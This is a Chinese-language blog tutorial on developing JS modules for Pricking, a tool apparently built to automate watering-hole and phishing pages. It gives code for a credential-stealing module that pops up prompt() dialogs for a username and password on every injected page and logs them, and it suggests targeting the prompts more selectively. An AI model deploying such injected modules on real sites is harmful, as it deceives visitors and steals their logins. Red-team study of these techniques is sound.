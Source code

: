 ```yaml
---
date: "2021-02-18T00:00:00Z"
description: Pricking 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍Pricking项目的JS模块开发。
title: Pricking 项目（二） ：JS模块开发
url: /archivers/2021-02-18/2
---
```


> 视频介绍：[bv1SK4y1n7xx](https://www.bilibili.com/video/bv1SK4y1n7xx)

## 0x00 目录结构介绍


```
.
├── access.log # 日志文件
├── docker-compose.yml # 容器配置文件
├── README.md  # 说明文档
└── static  # 静态文件夹
    ├── index.html # 测试页面
    ├── modules # JS模块目录
    │   └── cookie.js  # cookie相关模块
    ├── README.md  # JS模块文档
    └── static.js  # 主静态文件，会被默认加载到页面中

2 directories, 7 files
```
## 0x01 新建模块 - 窃取凭证

首先用VScode打开项目目录，在modules中新建一个`getpass.js`文件：

![2021-02-18-01-05-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/91f74f861a47b14a69d9a40596642ffb.png)

写入代码：

```js
/*
模拟一个对话框
prompt("请输入账号：")

用户输入 账号
用户输入 密码

保存凭证

*/

export function getPassword(u_info, p_info){

    var cert = new Object();
    cert.username = null;
    cert.password = null;

    while(cert.username == null || cert.username == "" ){
        cert.username = prompt(u_info);
    }

    while(cert.password == null || cert.password == ""){
        cert.password = prompt(p_info);
    }

    return cert;
}
```

最后在`static.js`中引入：

![2021-02-18-01-07-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7a4050bb1bbc64687ea77fd0b6482a20.png)


```js
import * as GetPassword from "./modules/getpass.js"
console.log(GetPassword.getPassword("请输入账号：", "请输入密码："));
```

查看站点：

![2021-02-18-01-09-04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/424eedccafdde55ecbf8152c96b831fe.png)

访问页面就会自动弹出提示框，当完成输入后，控制台会打印明文账号密码。

![2021-02-18-01-10-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/4d15d223c8c24d184c4004a20b5801e6.png)

## 0x02 窃取凭证模块的思考

现阶段大部分网站已经解决了明文传输的问题，基本上很多都是通过JS进行加密，这让获取明文密码变得更加“麻烦了点”。

上述演示的模块是在每一个HTTP请求中都会执行，肯定是不友好的，因此可以根据判断页面内容来进行弹出，还需要不断优化。
